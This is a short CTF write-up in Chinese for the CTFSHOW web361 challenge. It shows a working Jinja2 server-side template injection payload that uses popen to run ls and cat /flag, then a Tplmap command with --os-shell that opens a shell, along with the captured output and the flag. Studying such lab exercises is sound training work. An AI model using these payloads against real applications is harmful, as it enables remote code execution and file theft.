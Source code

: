 ![image-20240831144114496](https://gitee.com/bx33661/image/raw/master/path/image-20240831144114496.png)



#### CTFSHOW----web361

##### 手工

```
?name={{%20config.__class__.__init__.__globals__[%27os%27].popen(%27ls%20/%27).read()%20}}

###
Hello
app bin boot dev etc flag home lib lib64 media mnt opt proc root run sbin srv start.sh sys tmp usr var
###
```

打开文件

```
?name={{%20config.__class__.__init__.__globals__[%27os%27].popen(%27cat%20/flag%27).read()%20}}
```

![image-20240830170313737](https://gitee.com/bx33661/image/raw/master/path/image-20240830170313737.png)

##### 使用Tplmap

```bash
python2 tplmap.py -u 'https://727c5e75-4ba9-40ce-8fe3-dafdafd6990d.challenge.ctf.show/?name'
```

![image-20240830165245938](https://gitee.com/bx33661/image/raw/master/path/image-20240830165245938.png)

```bash
#直接获取shell
python2 tplmap.py -u 'https://727c5e75-4ba9-40ce-8fe3-dafdafd6990d.challenge.ctf.show/?name' --os-shell

[+] Run commands on the operating system.
posix-linux $ ls
app.py
posix-linux $ ls /
\app
bin
boot
dev
etc
flag
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
start.sh
sys
tmp
usr
var
posix-linux $ cat /flag
ctfshow{82f81a13-a157-49a5-ba00-cb23de3238cb}
```